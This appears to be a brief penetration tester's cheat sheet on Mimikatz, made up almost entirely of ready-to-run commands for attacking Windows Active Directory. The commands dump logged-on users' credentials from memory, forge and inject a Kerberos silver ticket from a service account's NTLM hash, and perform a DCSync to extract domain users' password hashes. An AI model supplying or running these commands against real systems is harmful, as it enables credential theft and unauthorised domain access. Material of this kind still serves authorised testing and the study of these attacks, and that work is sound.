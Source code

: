 # Mimikatz


## Silver Tickets

cheat sheet 
[mimikatz cheatsheet](https://kashz.gitbook.io/kashz-jewels/cheatsheet/mimikatz)

Using an admin powershell and open mimikatz:

```
privilege::debug
```

get passwords of logged on users:

```
sekurlsa::logonpasswords
```
Now, if we get the NTLM hash of an SPN with privleges to a service we want access to, we can forge a silver ticket.

```
kerberos::golden /sid:${DOMAIN_SID} /domain:${DOMAIN} /ptt /target:${RHOST_IP} /service:http /rc4:${NTLM_HASH} /user:${DOMAIN_USER}
```
The `$DOMAIN_SID` can be retrieved by doing `whoami /user` from a domain user and getting everything but the last section (which identifies the user).
Note that the user argument just has to be a valid user from the domain.
What determines the access rights is the NTLM hash and not the user, so you can even put the current user.

Afterwards, do `exit` and check that the ticket is loaded into memory with `klist`.

## DSYNC

mimikatz can help us attempt to get the NTLM of a user in the domain by performing a dsync attack:

```
lsadump::dcsync /user:${DOMAIN}\${USER}
```
